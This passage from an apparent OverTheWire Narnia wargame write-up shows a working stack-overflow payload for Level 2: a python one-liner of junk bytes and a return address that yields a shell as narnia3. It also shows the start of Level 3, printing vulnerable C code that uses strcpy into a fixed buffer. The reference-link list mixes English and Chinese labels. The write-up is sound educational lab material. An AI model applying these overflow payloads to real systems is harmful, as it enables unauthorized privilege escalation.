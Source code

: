Running it gives:

```
narnia2@melinda:/tmp$ ./getshadd EGG /narnia/narnia2
EGG will be at 0xffffd945
```

### Step 4: Running the Exploit!

Now all we need to do is to run the binary with 140 bytes of junk plus the address that we want to point  the return address to:

```sh
narnia2@melinda:/tmp/ya2$ /narnia/narnia2 `python -c 'print "A"*140 + "\x45\xd9\xff\xff"'`
$ whoami
narnia3
```


------

## Level 3: Stack Overflow, Files, and Symbolic Links

### Step 1: Understanding the Problem

The fourth level starts with:

```sh
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
narnia3@melinda:/narnia$ cat narnia3.c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
```

[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP